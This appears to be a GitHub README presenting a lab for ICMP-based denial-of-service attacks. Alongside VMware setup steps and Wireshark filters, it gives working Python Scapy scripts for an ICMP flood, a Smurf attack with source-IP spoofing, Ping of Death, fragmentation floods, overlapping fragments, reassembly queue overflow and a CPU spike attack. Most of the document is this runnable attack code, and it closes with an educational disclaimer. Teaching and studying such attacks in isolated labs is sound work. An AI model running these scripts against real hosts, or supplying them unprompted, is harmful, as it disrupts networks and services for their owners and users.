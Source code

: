 # ICMP-based DDoS Attack Demonstration

This repository contains Python scripts and step-by-step explanations to simulate various ICMP-based DDoS attacks. Each script demonstrates how attackers can exploit ICMP protocols to disrupt network services.

---

## Prerequisites

Install **Scapy**:
```bash
pip install scapy
```

---

## Lab Setup Instructions (VMware on macOS)

### Recommended Environment:
Use VMware Fusion with Ubuntu Server or Metasploitable2 VM.

#### VMware Fusion Setup
1. [Download and install VMware Fusion](https://customerconnect.vmware.com/downloads/#all_products).
2. Create a new VM:
    - Download [Ubuntu Server LTS](https://ubuntu.com/download/server) or [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).
    - Set network mode to **Host-Only Networking** for isolation.

#### Obtain VM IP Address
Run the following command on your VM:
```bash
ip addr
```
Use this IP in the attack scripts.

---

## Attack Scripts and Explanations

Each attack is explained with context and how it impacts the target device or network.

### 1. ICMP Flood

An ICMP flood involves sending an overwhelming number of ICMP echo requests (pings) rapidly, which can saturate network bandwidth or exhaust CPU resources.

#### Follow Along:
- Run Wireshark on your host machine with the filter `icmp`.
- Execute the script below and observe the rapid packet flow.

```python
# ICMP Flood Attack Script
from scapy.all import IP, ICMP, send

def icmp_flood(target_ip, packet_count=1000):
    packet = IP(dst=target_ip)/ICMP()
    send(packet, count=packet_count, inter=0.001)

# icmp_flood("TARGET_IP", 2000)
```

### 2. Smurf Attack

The Smurf attack exploits ICMP by spoofing a victim's IP address and sending packets to the broadcast address, resulting in amplified traffic returning to the victim.

#### Follow Along:
- Use Wireshark with the filter `icmp`.
- Notice packets spoofing the victim's IP.

```python
# Smurf Attack Script
from scapy.all import IP, ICMP, send

def smurf_attack(broadcast_ip, spoofed_src_ip, packet_count=500):
    packet = IP(src=spoofed_src_ip, dst=broadcast_ip)/ICMP()
    send(packet, count=packet_count, inter=0.01)

# smurf_attack("BROADCAST_IP", "SPOOFED_IP", 1000)
```

### 3. Ping of Death

An oversized ICMP packet (Ping of Death) targets older or unpatched systems causing crashes or instability due to buffer overflow.

#### Follow Along:
- Wireshark filter: `(icmp) && (frame.len > 1500)`.
- Observe the oversized packet.

```python
# Ping of Death Script
from scapy.all import IP, ICMP, send, Raw

def ping_of_death(target_ip):
    payload = b'X' * 65500
    packet = IP(dst=target_ip)/ICMP()/Raw(load=payload)
    send(packet)

# ping_of_death("TARGET_IP")
```

### 4. Fragmentation Flood

Rapidly sending fragmented packets exhausts the reassembly resources on the targeted system, leading to resource exhaustion and performance degradation.

#### Follow Along:
- Use Wireshark filter: `ip.flags.mf==1 || ip.frag_offset>0`.
- Notice how quickly fragments flood your target.

```python
# Fragmentation Flood Script
from scapy.all import IP, ICMP, send, fragment, Raw

def fragmentation_flood(target_ip, packet_count=500):
    payload = b'X' * 4000
    packet = IP(dst=target_ip)/ICMP()/Raw(load=payload)
    fragments = fragment(packet, fragsize=8)
    for _ in range(packet_count):
        send(fragments, inter=0.001)

# fragmentation_flood("TARGET_IP", 100)
```

### 5. Overlapping Fragments

Overlapping fragments confuse reassembly algorithms, potentially causing resource exhaustion or incorrect packet reassembly.

#### Follow Along:
- Observe overlapping fragments in Wireshark (`ip.flags.mf==1 || ip.frag_offset>0`).
- Notice reassembly issues.

```python
# Overlapping Fragments Script
from scapy.all import IP, ICMP, send, Raw

def overlapping_fragments(target_ip):
    payload = b'X' * 48
    packet1 = IP(dst=target_ip, id=12345, flags="MF", frag=0)/ICMP()/Raw(load=payload[:24])
    packet2 = IP(dst=target_ip, id=12345, flags=0, frag=2)/Raw(load=payload[16:])
    send([packet1, packet2])

# overlapping_fragments("TARGET_IP")
```

### 6. Reassembly Queue Overflow

Sending numerous fragmented packets with unique IDs quickly exhausts reassembly resources, effectively causing denial of service.

#### Follow Along:
- Observe resources being consumed via Wireshark.

```python
# Reassembly Queue Overflow Script
from scapy.all import IP, ICMP, send, fragment, Raw
import random

def reassembly_overflow(target_ip, packet_count=500):
    payload = b'X' * 4000
    for _ in range(packet_count):
        id = random.randint(1000, 65000)
        packet = IP(dst=target_ip, id=id)/ICMP()/Raw(load=payload)
        fragments = fragment(packet, fragsize=8)
        send(fragments, inter=0.001)

# reassembly_overflow("TARGET_IP", 200)
```

### 7. CPU Spike via Fragmentation

Rapid sending of tiny fragments can dramatically spike CPU usage on devices responsible for packet reassembly, leading to degraded network performance.

#### Follow Along:
- Monitor the CPU spike in the VM using resource monitoring tools (e.g., `top`, `htop`).

```python
# CPU Spike via Fragmentation Script
from scapy.all import IP, ICMP, send, fragment, Raw

def cpu_spike(target_ip, packet_count=500):
    payload = b'X' * 2000
    packet = IP(dst=target_ip)/ICMP()/Raw(load=payload)
    fragments = fragment(packet, fragsize=8)
    for _ in range(packet_count):
        send(fragments, inter=0.0001)

# cpu_spike("TARGET_IP", 100)
```

---

## Wireshark Capture Filters
- ICMP Traffic: `icmp`
- Fragmentation Traffic: `ip.flags.mf==1 || ip.frag_offset>0`
- Oversized ICMP Packets: `(icmp) && (frame.len > 1500)`

---

## Disclaimer

These scripts are provided solely for educational purposes. Execute them responsibly within a controlled and authorized environment.
